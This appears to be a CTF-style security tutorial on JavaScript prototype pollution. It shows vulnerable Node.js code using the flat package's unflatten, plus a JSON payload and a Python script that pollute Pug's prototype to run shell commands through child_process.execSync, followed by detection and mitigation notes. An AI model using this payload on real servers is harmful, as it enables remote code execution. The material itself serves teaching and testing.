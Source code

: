 ```yaml
---
title: Prototype Pollution
date: 2024-10-20
---
```


# **Prototype Pollution**

## **Introduction**

**Prototype Pollution** is a vulnerability that allows an attacker to manipulate the properties of an object’s
prototype. By modifying the object prototype, attackers can inject malicious properties or methods into all instances of
that object type, potentially leading to serious issues like remote code execution (RCE).

## **Understanding Prototype Pollution**

### **What is a Prototype?**

In JavaScript, objects inherit properties and methods from their prototype. Every object in JavaScript has a `__proto__`
property, which links to its prototype. By manipulating the `__proto__` object, it’s possible to inject properties or
methods into all instances of that prototype.

### **How Does Prototype Pollution Occur?**

Prototype Pollution happens when a user-controlled input can modify the prototype of an object using properties such as
`__proto__`, `constructor.prototype`, or `prototype`.

#### **Example of Vulnerable Code:**

```javascript
const { unflatten } = require('flat');

let data = {
    name: "John"
};

// User-controlled input
let payload = {
    "__proto__.admin": true
};

// Unflatten the payload
let obj = unflatten(payload);

// Checking the polluted object
console.log(obj.admin); // true
console.log(data.admin); // true (Polluted)
```

In the above example, the `unflatten` function allows users to insert arbitrary properties into the `__proto__` object,
polluting the prototype.

## **Attack Scenario: Exploiting Prototype Pollution in Node.js**

### **Vulnerable Application**

We analyze a vulnerable Node.js application using **Pug** templating and the **flat** package to process user input.

**Relevant Dependencies (from `package.json`):**

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

### **Vulnerable Code Snippet**

```javascript
const { unflatten } = require('flat');
const pug = require('pug');

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes('Haigh')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Invalid artist name.'
        });
    }
});
```

### **Exploitation**

The `unflatten` function processes user input and is vulnerable to prototype pollution. By sending a malicious payload,
an attacker can inject properties into the `artist` object’s prototype, leading to remote code execution.

#### **Exploit Payload:**

```json
{
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}
```

In this case, the attacker injects a malicious `block` object into the prototype, which allows the execution of shell
commands on the server.

#### **Exploit Code (Python Script):**

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

## **Real-World Impact**

### **Remote Code Execution (RCE)**

In the example provided, the injected `block` property leads to RCE by executing a shell command (`cat flag*`) on the
server. The vulnerable application runs this command, exposing in this case a flag file, but it could be used to execute
any arbitrary code.

## **Detection**

### **Manual Testing**

- Test for prototype pollution vulnerabilities by submitting payloads that target `__proto__` or other prototype-related
  properties.

  Example payload for testing:

  ```json
  {
      "__proto__.polluted": true
  }
  ```

  If the application returns `true` for `polluted`, it is vulnerable.

### **Automated Tools**

- **Burp Suite Extensions**: Use Burp Suite with extensions like **Prototype Pollution Scanner** to automate the
  detection of prototype pollution vulnerabilities.

- **SAST/DAST Tools**: Incorporate static and dynamic application security testing tools into your pipeline to identify
  potential prototype pollution flaws.

## **Conclusion**

Prototype pollution is a critical web vulnerability, especially in JavaScript-based environments like **Node.js**. It
can lead to severe consequences such as remote code execution, privilege escalation, and denial of service. By ensuring
proper input validation, using secure libraries, and disabling unsafe features in templating engines, developers can
mitigate these risks effectively.

## **References**

- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
